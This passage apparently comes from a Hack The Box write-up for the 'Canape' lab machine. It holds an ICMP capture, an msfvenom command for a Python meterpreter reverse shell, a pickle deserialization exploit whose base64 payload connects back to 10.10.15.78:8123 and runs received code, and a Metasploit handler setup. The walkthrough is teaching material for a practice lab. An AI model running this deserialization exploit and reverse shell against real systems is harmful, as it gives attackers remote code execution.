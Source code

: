 ```bash
06:36:08.662884 IP kali > git.canape.htb: ICMP echo reply, id 1200, seq 4, length 64
06:36:09.466449 IP git.canape.htb > kali: ICMP echo request, id 1200, seq 5, length 64
06:36:09.466551 IP kali > git.canape.htb: ICMP echo reply, id 1200, seq 5, length 64
06:36:10.516023 IP git.canape.htb > kali: ICMP echo request, id 1200, seq 6, length 64
06:36:10.516130 IP kali > git.canape.htb: ICMP echo reply, id 1200, seq 6, length 64
06:36:11.478756 IP git.canape.htb > kali: ICMP echo request, id 1200, seq 7, length 64
06:36:11.478879 IP kali > git.canape.htb: ICMP echo reply, id 1200, seq 7, length 64
^[[A^[[B^C
14 packets captured
14 packets received by filter
0 packets dropped by kernel
```

From here, we can get a meterpreter shell, first generate the python payload with:
```
$ msfvenom -p python/meterpreter/reverse_tcp LHOST=10.10.15.78 LPORT=8123 -f raw > met.py
```

Then include it with some modification in the previous python script:
```python
!/usr/bin/env python

import os
import cPickle
from hashlib import md5
import urllib

# Exploit that we want the target to unpickle
class Exploit(object):
    def __reduce__(self):
        pre = 'str(eval(compile("print(\'moe\');'
        post = '","foo","exec")))'
        payload = 'import base64,sys;exec(base64.b64decode({2:str,3:lambda b:bytes(b,\'UTF-8\')}[sys.version_info[0]](\'aW1wb3J0IHNvY2tldCxzdHJ1Y3QsdGltZQpmb3IgeCBpbiByYW5nZSgxMCk6Cgl0cnk6CgkJcz1zb2NrZXQuc29ja2V0KDIsc29ja2V0LlNPQ0tfU1RSRUFNKQoJCXMuY29ubmVjdCgoJzEwLjEwLjE1Ljc4Jyw4MTIzKSkKCQlicmVhawoJZXhjZXB0OgoJCXRpbWUuc2xlZXAoNSkKbD1zdHJ1Y3QudW5wYWNrKCc+SScscy5yZWN2KDQpKVswXQpkPXMucmVjdihsKQp3aGlsZSBsZW4oZCk8bDoKCWQrPXMucmVjdihsLWxlbihkKSkKZXhlYyhkLHsncyc6c30pCg==\')))'
        return (eval,(pre + payload + post,))



shellcode = cPickle.dumps(Exploit())
print(shellcode)
#cPickle.loads(shellcode)

print(urllib.quote_plus(shellcode))
print(md5(shellcode).hexdigest())
```

Set up metasploit:
```
use /exploit/multi/handler
set payload python/meterpreter/reverse_tcp
set LHOST 10.10.15.78
set LPORT 8123
set ExitOnSession false
exploit -j -z
```
